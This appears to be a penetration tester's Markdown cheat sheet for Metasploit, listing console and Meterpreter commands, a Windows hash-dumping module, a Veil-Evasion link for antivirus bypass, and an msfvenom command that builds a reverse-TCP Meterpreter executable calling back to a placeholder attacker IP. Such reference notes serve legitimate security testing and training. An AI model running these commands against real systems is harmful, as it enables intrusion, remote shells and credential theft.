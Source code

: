 # METASPLOIT

* [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/) - the ultimate guide to the Metasploit Framework
* [Veil-Evasion](https://github.com/Veil-Framework/Veil-Evasion/) - generate metasploit payloads that bypass anti-virus solutions

Starting
--------
```
service postgresql start
msfdb init
msfconsole
```

Useful Metasploit Console Commands
----------------------------------
* [MSFconsole Core Commands](https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/)  
```
jobs
sessions -i 1
set session 1
```

Useful Meterpreter Commands
---------------------------
```
sysinfo
exit/quit
download/upload (use C:\\)
edit
getpid
geuid
ps
kill
execute
migrate
search -f network-secret.txt
shell
```

Post-exploitation module: `run winenum` script.  
Windows hashes: `run post/windows/gather/smart_hashdump`  

* [Web Delivery explained](https://www.offensive-security.com/metasploit-unleashed/web-delivery/) //tip: check if there's port added in the payload URL

msfvenom
--------

Typical Windows exe payload:

`msfvenom -p windows/meterpreter/reverse_tcp lhost=[Attacker's IP] lport=4444 -f exe -o /tmp/my_payload.exe`  

As an example, the payload can be delivered via webserver. Then `use exploit/multihandler`, set appropriate payload, IPs, ports etc.
